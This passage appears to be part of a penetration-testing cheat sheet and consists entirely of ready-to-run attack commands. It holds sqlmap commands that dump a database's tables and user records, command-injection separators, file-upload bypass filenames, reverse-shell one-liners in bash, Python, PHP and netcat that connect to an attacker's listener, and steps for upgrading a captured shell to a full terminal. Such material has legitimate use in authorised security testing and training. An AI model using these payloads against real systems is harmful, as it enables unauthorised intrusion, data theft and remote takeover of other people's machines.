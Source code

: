 ### Web Exploits
```bash
# SQL Injection
sqlmap -u "http://target.com/page?id=1" --dbs
sqlmap -u "http://target.com/page?id=1" -D database --tables
sqlmap -u "http://target.com/page?id=1" -D database -T users --dump

# Command Injection
; ls
| ls
|| ls
& ls
&& ls
`ls`
$(ls)

# File Upload bypass
file.php.jpg
file.php%00.jpg
file.php;.jpg
```

### Reverse Shells
```bash
# Bash
bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1

# Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# PHP
php -r '$sock=fsockopen("ATTACKER_IP",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

# Netcat
nc -e /bin/sh ATTACKER_IP 4444
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 4444 >/tmp/f

# Listener on attacker machine
nc -lvnp 4444
```

### Upgrade Shell
```bash
# Python PTY
python -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'

# Full TTY
python -c 'import pty;pty.spawn("/bin/bash")'
# Press Ctrl+Z
stty raw -echo; fg
export TERM=xterm
```

---